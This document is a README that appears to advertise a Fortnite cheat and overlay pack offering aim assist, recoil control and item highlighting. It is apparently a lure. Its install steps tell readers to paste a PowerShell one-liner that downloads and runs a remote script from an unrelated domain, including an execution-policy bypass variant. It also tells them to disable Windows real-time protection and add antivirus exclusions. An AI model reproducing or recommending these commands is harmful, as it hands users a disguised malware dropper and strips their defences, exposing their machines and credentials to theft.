

<div align="center">

# Fortnite Enhancement Suite — Lightweight Overlay & Performance Tweaks for Windows



[]() []() []() []() []()

</div>

---

Fortnite Enhancement Suite is a lightweight external overlay and config pack built for players who want sharper control over what they see and how the game runs. It combines a clean, non-intrusive overlay loader with a set of Lua config scripts covering on-screen info display, performance tweaks, and visual adjustments. Everything is modular by design — tune FPS and rendering, customize your HUD, or dial in display parameters without touching the core game files. Built for educational use and personal testing only, and not affiliated with Epic Games.

## 🚀 PowerShell Install Guide

> [!TIP]
> **One-click install** — paste one command, done in seconds.
> Win 10/11 · PowerShell 5.1+ · Standard user

### 1️⃣ Prepare PowerShell
* Press `Win + X` on your keyboard.
* Click on **Terminal** or **Windows PowerShell** from the list.

### 2️⃣ Execute the setup script
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ Forced run via CMD
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> If SmartScreen or antivirus blocks the setup, go to **Windows Security → Virus & threat protection → Manage settings**, turn off **Real-time protection**, run the script, and re-enable immediately.

## 📋 System Requirements

- Windows 10 or Windows 11
- PowerShell 5.1 or newer (already available on Windows)
- Active network connection
- No admin rights needed

## Features

- **External overlay, zero injection** — runs alongside the game as a separate lightweight process. Nothing gets patched into Fortnite's memory, so your install stays clean and untouched.

- **On-screen info panels** — configurable HUD readouts for the stats you actually care about: performance counters, session info, and custom text blocks. Toggle individual panels on the fly with a hotkey.

- **`tracking_assist.lua`** — tune aiming smoothness and range response to your own preference curves. Fully adjustable, fully local.

- **`recoil_tuner.lua`** — fine-grained weapon behavior adjustment so spray patterns feel predictable instead of fighting you.

- **`item_highlighter.lua`** — nearby items and containers get visual callouts, cutting down on scan time in busy drops.

- **`view_adjust.lua`** — extend and reshape your display parameters for a wider, cleaner read of the battlefield.

- **`fps_optimize.lua`** — rendering and graphics tweaks aimed squarely at frame consistency. Squeeze more out of the same hardware.

- **`hud_custom.lua`** — restyle interface elements to your taste without touching game files.

- **`cosmetic_preview.lua`** — preview cosmetic styles locally before committing. Purely visual, purely client-side.

- **Hotkey-driven menu** — hit **Insert** in-game and everything's live: sliders, toggles, presets. No restarts, no config-file archaeology.

- **Lua configs, not binaries** — every script is plain text. Read it, edit it, extend it, roll your own. The whole suite is yours to shape.

- **Guided installer with backups** — auto-detects your Fortnite folder, backs up anything it touches, and uninstalls just as cleanly.

- **Tiny footprint** — no background services, no bloat. The overlay idles near-zero when you're not using it.

## How It Works

Fortnite-Enhancement-Suite runs as an external overlay process that sits alongside the game, not inside it. A single loader executable attaches to the display layer and draws information panels on top of your screen, while every tweakable behavior lives in plain Lua config files under the configs folder. No game files get rewritten to change how the overlay behaves — the scripts are read at runtime, so editing a value and reloading takes effect without a reinstall.

The flow is straightforward: the loader boots first, scans for a running Fortnite instance, and hooks into the render pass to paint the overlay. Each Lua script maps to one job — info_overlay handles on-screen readouts, fps_optimize adjusts rendering parameters, hud_custom restyles interface elements, and so on. The overlay menu, opened with the Insert key, lets you toggle scripts and adjust values live, so you can watch a performance tweak land in real time instead of restarting the game to test it.

Under the hood it stays light on purpose. The overlay is a separate windowed process with no injection into game memory, which keeps the footprint small and the FPS cost negligible — most of the frame budget goes to the game, not the tool. Config changes are read from disk on demand, and the loader keeps a hotkey map and script registry in memory so menu navigation stays instant.

Bottom line: external process, Lua-driven configs, live menu control, zero permanent game modifications. You get a customizable information layer and performance dials that respond the moment you touch them.

## Supported Games

Built and tuned for Fortnite — that's the target, that's the focus. The overlay hooks into the live client for on-screen info, performance tweaks, and visual adjustments, and it's kept in step with current Fortnite builds.

Works across the standard Fortnite modes you're already playing — Battle Royale, Zero Build, and Creative. Same overlay, same configs, same hotkeys. No mode-specific setup required.

What you get on Fortnite:

- **Live overlay on current builds** — info panels, indicators, and HUD elements render cleanly over the game without touching the render pipeline
- **Config scripts that map to Fortnite systems** — tracking, recoil, item visibility, view parameters, FPS, HUD, and cosmetic previews all target Fortnite's behavior
- **Mode-agnostic by design** — drop into any Fortnite match type and the suite behaves the same
- **Version-aware** — built against current Fortnite versions; older builds aren't the target and aren't supported

One game. One suite. Tuned for Fortnite, nothing else.

## Configuration

Every knob in this suite lives in the `configs/` folder as a plain `.lua` file. No registry spelunking, no buried XML — open it in any text editor, change a value, save, and relaunch the game. That's the whole workflow.

**Config files at a glance**

| File | What you're tuning | Default state |
|------|-------------------|---------------|
| `tracking_assist.lua` | Aim smoothing curve, range, sensitivity scaling | Balanced |
| `info_overlay.lua` | Which info panels show, position, opacity | Compact |
| `recoil_tuner.lua` | Weapon pattern scaling and recovery values | Reference |
| `item_highlighter.lua` | Item/container visibility radius and highlight style | On |
| `view_adjust.lua` | Extended view parameters and display bounds | Stock |
| `fps_optimize.lua` | Rendering flags, culling, frame pacing hints | Moderate |
| `hud_custom.lua` | HUD element sizing, colors, layout offsets | Minimal |
| `cosmetic_preview.lua` | Local cosmetic style preview toggles | Off |

**Hotkeys** are defined in the loader config, not hardcoded. Default is **Insert** for the menu. Change it if it collides with anything you use — just keep it to a single key that Fortnite doesn't grab.

**Live editing:** Most values reload when you toggle the overlay menu. For heavy changes — view parameters, rendering flags — save the file and restart the game so the loader picks them up cleanly.

**Backups before you break things.** The installer drops your originals into a backup folder. If a value tanks your FPS or breaks the HUD, swap the file back or delete the custom one and the loader falls back to defaults.

**Rules of thumb**

- Change one file at a time. If something goes sideways, you know exactly which knob did it.
- `fps_optimize.lua` is the first place to look when performance dips — big values there can cost more than they save.
- Keep `configs/` next to the loader. Moving files around is the #1 reason settings silently stop loading.
- Antivirus exclusions apply here too — a flagged config file just won't load, and you'll chase a ghost.

Educational and personal use only. Tune responsibly, and keep it compliant with the game's terms.

## FAQ

**Is this detectable or bannable?**
The suite is external and reads/overlays only — it does not inject into the game process. That said, no third-party tool is ever "zero risk," and Epic's terms are strict. Treat this as an educational/performance-testing project, not a ranked-ladder cheat ticket. You accept the risk by running it.

**Does it work on the current Fortnite build?**
The loader tracks live builds and the config pack is version-agnostic — Lua scripts don't need a patch for every game update. If a specific feature breaks after a major patch, check the repo's latest release before assuming it's dead.

**Do I need to install anything for the Lua configs to work?**
No. The configs ship with the pack and load through the overlay menu — no separate runtime, no package manager, no build step. Drop them in, launch, done.

**Why does my antivirus flag the installer?**
Overlay and config utilities get flagged by heuristics for a living — unsigned executables that hook display layers look suspicious to scanners even when they're clean. Add an exclusion after verifying the file hash yourself.

**Can I run this alongside other overlays or capture tools?**
Usually yes, but stacking multiple overlay layers is asking for hotkey collisions and flickering panels. If something goes invisible, close the other overlay first.

**Which features are safe to leave on by default?**
The information display, HUD styling, and FPS tuning are the low-impact core — leave those on. Combat-adjacent scripts are the ones to toggle deliberately, not blindly.

**Do the cosmetic previews unlock anything?**
No. Previews are local-only renders — nothing is granted, saved to your account, or visible to other players.

**Settings won't stick after a restart — what gives?**
Nine times out of ten it's a missing or misplaced `configs/` folder, or the game was launched before the loader finished initializing. Verify the folder, restart the loader, then launch the game.

**Is this affiliated with Epic Games?**
Zero affiliation. It's a community educational project — no endorsement, no support line, no official blessing.

## Disclaimer

Read this before you run anything.

This suite ships as-is, for educational purposes, performance testing, and personal customization only. Nothing here is built, endorsed, or supported by Epic Games, and using third-party overlays or config packs may violate the game's terms of service — that risk sits squarely with you, not the repo. Test in offline or private environments first. No warranty, no guarantees, no hand-holding: if a patch breaks compatibility, a config misbehaves, or your account catches a ban, that's on the end user. Overlay utilities commonly trip heuristic antivirus detections — verify every file yourself before execution and never run builds from sources you don't trust. Use your head, respect the rules of the games you play, and keep it personal.